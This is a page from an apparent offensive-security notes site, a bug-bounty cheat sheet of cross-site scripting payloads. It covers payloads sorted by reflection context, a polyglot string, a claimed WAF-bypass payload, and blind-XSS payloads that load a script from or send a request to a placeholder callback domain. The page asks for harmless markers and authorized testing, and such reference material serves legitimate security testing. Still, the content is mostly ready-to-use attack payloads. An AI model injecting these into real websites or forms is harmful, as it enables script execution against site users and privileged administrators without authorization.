

repository: 0x3xp10i73r/offsec-vault · page: web-bugbounty/xss-csp-client-side/index.html · generator: mkdocs

---
title: "XSS, DOM, postMessage & CSP Bypasses"
description: "Context-aware cross-site scripting payloads, DOM clobbering, prototype pollution, postMessage flaws, and CSP bypass techniques"
tags:
  - Bug Bounty
  - XSS
  - CSP
  - DOM
  - Client-Side
---

# XSS, DOM, postMessage & CSP Bypasses

!!! note "What this page is doing"
    Client-side testing starts by tracing data from source to sink and identifying the browser context. Prove execution with a harmless marker in an authorized environment, preserve the policy and origin evidence, and avoid collecting cookies or personal data.

---

## 1. Context-Aware XSS Payloads

Always identify the **reflection context** first: HTML body, attribute, `href`/`src`, JS string, JS template literal, DOM sink, or inside a JSON response rendered by client JS.

| Context | Payload |
| :--- | :--- |
| **HTML body** | `<svg onload=alert(1)>` &nbsp;/&nbsp; `<img src=x onerror=alert(1)>` |
| **Double-quoted attribute** | `" onmouseover="alert(1)` &nbsp;/&nbsp; `" autofocus onfocus="alert(1)` |
| **Single-quoted attribute** | `' onmouseover='alert(1)` &nbsp;/&nbsp; `' autofocus onfocus='alert(1)` |
| **Unquoted attribute** | `onmouseover=alert(1)` &nbsp;/&nbsp; `autofocus onfocus=alert(1)` |
| **Inside `<script>` string** | `';alert(1);//` &nbsp;/&nbsp; `\';alert(1);//` &nbsp;/&nbsp; `</script><img src=x onerror=alert(1)>` |
| **Template literal** | `` ${alert(1)} `` &nbsp;/&nbsp; `` `+alert(1)+` `` |
| **`href` / `src`** | `javascript:alert(1)` &nbsp;/&nbsp; `data:text/html,<script>alert(1)</script>` |
| **Inside `<title>`** | `</title><svg onload=alert(1)>` |
| **Inside JSON API** | `{"name":"</script><svg onload=alert(1)>"}` (if rendered via `innerHTML`) |
| **Markdown / rich text** | `[x](javascript:alert(1))` &nbsp;/&nbsp; `![x]("onerror="alert(1))` |

```javascript
// Polyglot — works across many contexts at once
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

// Universal WAF-bypass single-payload attempt
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
```

---

## 2. Blind XSS (Stored in Internal Panels)

Blind XSS fires in **admin dashboards, support ticket panels, log viewers, and CRM tools** — often the highest-impact XSS class because it hits privileged users.

```text
# Use a harmless callback marker owned by the assessment team. Do not collect
# cookies, tokens or page contents in a blind-XSS proof.
"><script src="https://<COLLABORATOR_DOMAIN>/xss.js"></script>
"><img src=x onerror="fetch('https://<COLLABORATOR_DOMAIN>/xss?marker=1')">

# High-yield locations to review one at a time:
# - support fields, profile fields, order notes and invite messages
# - User-Agent, Referer and approved forwarding headers rendered in dashboards
# - filenames and EXIF metadata rendered by an internal viewer
# - error messages or stack traces rendered by an approved admin panel

# Host the callback endpoint under the assessment team's control and record
# only the timestamp, user agent and a non-sensitive marker.
```

---
